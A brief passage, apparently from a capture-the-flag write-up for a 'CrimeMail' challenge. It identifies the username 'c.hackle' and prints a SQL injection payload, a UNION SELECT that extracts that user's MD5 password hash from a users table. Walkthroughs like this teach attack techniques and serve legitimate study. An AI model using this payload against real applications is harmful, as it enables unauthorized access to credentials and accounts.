 <img src='images/crimemail-usernames.png' width='600'>
<p>There it is, 'c.hackle'. Now what about the pass_md5? <code>' UNION SELECT pass_md5 FROM users WHERE username = 'c.hackle';-- </code></p>